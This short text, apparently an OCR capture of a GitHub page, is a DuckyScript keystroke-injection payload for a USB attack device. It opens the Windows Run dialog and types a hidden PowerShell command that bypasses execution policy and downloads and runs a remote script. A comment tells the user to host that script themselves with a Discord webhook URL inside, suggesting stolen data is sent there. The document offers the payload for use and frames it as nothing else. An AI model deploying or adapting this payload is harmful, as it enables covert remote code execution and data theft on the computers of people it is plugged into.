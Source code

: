 # **Here is the payload in DuckyScript format:**

REM make sure to replace: `https://raw.githubusercontent.com/..LINK_TO../main/YourHostedFile.ps1` with your own url, with the modified discord webhook url in it too.
GUI r
DELAY 500
ALTSTRING powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command "[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; iwr -useb 'https://raw.githubusercontent.com/..LINK_TO../main/YourHostedFile.ps1' | iex"
ENTER
